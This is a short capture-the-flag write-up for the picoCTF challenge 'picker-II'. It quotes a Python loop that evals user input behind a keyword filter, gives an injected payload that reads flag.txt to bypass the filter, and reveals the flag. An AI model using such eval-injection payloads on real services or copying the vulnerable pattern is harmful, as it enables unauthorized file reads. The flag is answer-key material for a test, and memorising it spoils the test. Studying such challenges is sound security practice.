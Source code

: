 
# \<The challenge title\>

*\<Difficulty\>*

>### Description
>Can you figure out how this program works to get the flag?
Connect to the program with netcat:
>```sh
> nc saturn.picoctf.net 65333
>```
>The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/522/picker-II.py).

### Solution

The source contains a lot of useless code and comments. But the import thing is the main loop, same as previous challenge. But this time it filters user input very basic.

```python
def filter(user_input):
  if 'win' in user_input:
    return False
  return True

while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
    break
```

Our input is invalid if we use 'win', so we cannot just straightup call win(). But since our input just get parsed as python code. We can simply read the flag file and print it as our input.

```python
print(open('flag.txt', 'r').read())#
```

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
</details>